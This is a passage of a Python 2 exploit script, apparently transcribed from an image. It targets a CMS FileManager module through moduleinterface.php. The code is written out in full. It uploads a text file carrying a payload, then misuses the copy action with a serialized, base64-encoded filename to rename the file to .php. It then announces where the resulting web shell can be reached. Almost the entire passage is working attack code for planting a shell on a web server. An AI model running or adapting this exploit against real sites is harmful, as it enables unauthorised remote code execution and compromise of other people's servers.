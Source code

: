 ```
def upload_txt(cookies, csrf_token):
    mact = "FileManager,m1_,upload,0"
    page = "/moduleinterface.php"
    url = base_url + page
    data = {
        "mact": mact,
        csrf_param: csrf_token,
        "disable_buffer": 1
    }
    txt = {
        'm1_files[]': (txt_filename, payload)
    }
    print "[*] Attempting to upload {}...".format(txt_filename)
    response = requests.post(url, data=data, files=txt, cookies=cookies, verify=False)
    status_code = response.status_code
    if status_code == 200:
        print "[+] Successfully uploaded {}".format(txt_filename)
        return True
    print "[-] An error occurred while uploading {}".format(txt_filename)
    return None

def copy_to_php(cookies, csrf_token):
    mact = "FileManager,m1_,fileaction,0"
    page = "/moduleinterface.php"
    url = base_url + page
    b64 = base64.b64encode(txt_filename)
    serialized = 'a:1:{{i:0;s:{}:"{}";}}'.format(len(b64), b64)
    data = {
        "mact": mact,
        csrf_param: csrf_token,
        "m1_fileactioncopy": "",
        "m1_path": upload_dir,
        "m1_selall": serialized,
        "m1_destdir": "/",
        "m1_destname": php_filename,
        "m1_submit": "Copy"
    }
    print "[*] Attempting to copy {} to {}...".format(txt_filename, php_filename)
    response = requests.post(url, data=data, cookies=cookies, allow_redirects=False, verify=False)
    status_code = response.status_code
    if status_code == 302:
        if response.headers['Location'].endswith('copysuccess'):
            print "[+] File copied successfully"
            return True
    print "[-] An error occurred while copying, maybe {} already exists".format(php_filename)
    return None    

def quit():
    print "[-] Exploit failed"
    exit()

def run():
    cookies,csrf_token = authenticate()
    if not cookies:
        quit()
    if not upload_txt(cookies, csrf_token):
        quit()
    if not copy_to_php(cookies, csrf_token):
        quit()
    print "[+] Exploit succeeded, shell can be found at: {}".format(upload_url + '/' + php_filename)

run()
```